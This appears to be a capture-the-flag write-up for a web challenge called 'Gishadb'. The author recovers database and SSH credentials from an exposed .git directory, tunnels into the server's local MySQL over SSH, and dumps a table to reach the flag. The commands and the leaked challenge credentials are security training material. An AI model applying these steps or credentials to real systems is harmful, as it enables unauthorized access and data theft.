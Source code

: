 # Gishadb


## Category

> Realistic

## Description

Ce serveur écoute sur 2 ports ! 443 et 222. Trouvez un moyen d'obtenir le flag.

This server listen on two ports: 443 and 222. Find a way to get the flag.

## Link

https://gishadb.flag4all.sh

## Difficulty

**EASY** - 481 points

- Author: **Penthium2 (BZHack)**
---

{{< image src="/Gishadb/screen.png" caption="Screenshot" title="Screenshot" alt="Screenshot" >}}

## Write up

### .git dump

I highly recommend you to have [DotGit](https://github.com/davtur19/DotGit) extension installed for CTF and web audits.
It automatically checks for you if a **.git directory is exposed**. And that's what happened here when I opened the page. This extension also comes with an extraction tool.

{{< image src="/Gishadb/dotgit.png" caption="Dump it !" title="Dump it !" alt="Dump it !" >}}

After the whole extraction is done, we can first take a look at the git logs with ``git log``:

{{< image src="/Gishadb/commits.png" caption="commits" title="commits" alt="commits" >}}

Then I used ``git show <commit id>`` to show the content of each commit. And it didn't disappoint me:

{{< admonition type=info title="1. The main page content (not useful) AND db credentials (ofc useful)" open=false >}}
```diff
commit 02ef7e50a0bb9954d7819f8fd7c7b2c593db0d73
Author: penthium2 <penthium2@hotmail.fr>
Date:   Thu May 25 14:44:03 2023 +0200

    ipremier commit

diff --git a/index.php b/index.php
new file mode 100644
index 0000000..20e4fa0
--- /dev/null
+++ b/index.php
@@ -0,0 +1,13 @@
+<H1>Je suis un maitre du PHP et SQL</h1>
+<?php
+$cnx = new PDO('mysql:host=127.0.0.1;dbname=app;charset=utf8', 'app', 'db_Super_P4$$');
+
+// Partie "Requête"
+
+echo "<p>dans ma table <b>HAND</b></p>";
+$query = 'SELECT * FROM `hand` where id=1';
+$resultSet = $cnx->query($query);
+$element = $resultSet->fetch();
+echo "<p> voici le $element[1] de $element[2] et son id : $element[0]<p>";
+?>
+<h2> mais quel est la valeur de l'id 3 ?? </h2>
```
{{</admonition>}}

{{< admonition type=info title="2. \"Fixing\" the credentials leak (but they did not change)" open=false >}}

```diff
commit 6dbcaf8c22bbe74aa2562ac60f58602d8592347a
Author: penthium2 <penthium2@hotmail.fr>
Date:   Thu May 25 14:50:32 2023 +0200

    sécurisation

diff --git a/config.php b/config.php
new file mode 100644
index 0000000..35d2322
--- /dev/null
+++ b/config.php
@@ -0,0 +1,3 @@
+<?php
+$cnx = new PDO('mysql:host=127.0.0.1;dbname=app;charset=utf8', 'app', 'db_Super_P4$$');
+?>
diff --git a/index.php b/index.php
index 20e4fa0..5cd8a7d 100644
--- a/index.php
+++ b/index.php
@@ -1,7 +1,7 @@
 <H1>Je suis un maitre du PHP et SQL</h1>
 <?php
-$cnx = new PDO('mysql:host=127.0.0.1;dbname=app;charset=utf8', 'app', 'db_Super_P4$$');
-
+// ajout d'un iclude pour la s<C3>curit<C3>
+include("config.php");
 // Partie "Requête"

 echo "<p>dans ma table <b>HAND</b></p>";
```
{{</admonition>}}

{{< admonition type=info title="3. some SSH credentials! (very useful)" open=false >}}
```diff
commit 13c0faef33bf466602913bc3918094cfefea072f
Author: penthium2 <penthium2@hotmail.fr>
Date:   Thu May 25 14:52:44 2023 +0200

    ajout info ssh pour preprod

diff --git a/info_login b/info_login
new file mode 100644
index 0000000..d904e9b
--- /dev/null
+++ b/info_login
@@ -0,0 +1,2 @@
+loginssh : gishadb@192.168.124.1
+pass : iop
```
{{</admonition>}}

{{< admonition type=info title="4. Removing SSH creds (they di not change too)" open=false >}}
```diff
commit cfdccf9472e0b985abc372f90fa64352d744b5ad (HEAD -> master)
Author: penthium2 <penthium2@hotmail.fr>
Date:   Thu May 25 14:53:28 2023 +0200

    suppresion info preprod

diff --git a/info_login b/info_login
deleted file mode 100644
index d904e9b..0000000
--- a/info_login
+++ /dev/null
@@ -1,2 +0,0 @@
-loginssh : gishadb@192.168.124.1
-pass : iop
```
{{</admonition>}}

We now have:
- Database credentials
- SSH credentials

### Database dump

Then plan now is to connect to the server, and access the local database (not accessible remotely). However, a little thing will bother us after connecting to the port **222**:

![Fuck](/Gishadb/fuckssh.gif)

This program is impossible to leave, just have to close the terminal.

But anyway, we will go through an **SSH tunnel**, using ``-L`` flag,
that allows us to forward one port of the server to our machine.

We'll look for MySql port, **3306**
Using ``-N`` will also not prompt the green binary disaster.

Command is: ``ssh -N gishadb@gishadb.flag4all.sh -p 222 -L 3306:localhost:3306``

We can now, in another terminal, connect to the remote MySql server using ``app:db_Super_P4$$``:

```bash
$ mysql -u app -p -h 127.0.0.1
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 100238
Server version: 10.5.21-MariaDB-0+deb11u1 Debian 11
```

Now, need to show the databases, its tables, and then its content : 

```
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| app                |
| information_schema |
+--------------------+

MariaDB [(none)]> use app
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [app]> show tables;
+---------------+
| Tables_in_app |
+---------------+
| hand          |
| users         |
+---------------+

MariaDB [app]> select * from hand;
+----+-----------------------------+----------+
| id | finger                      | ring     |
+----+-----------------------------+----------+
|  1 | pouce                       | Penthium |
|  2 | index                       | Penthium |
|  3 | FLAG{REDACTED}              | Penthium |
|  4 | anulaire                    | Penthium |
|  5 | oriculaire                  | Penthium |
+----+-----------------------------+----------+
```

{{< admonition type=success title="Flag" open=false >}}
:triangular_flag_on_post: `FLAG{TAK3_Care_Of_SSH_POWA}`
{{< /admonition >}}

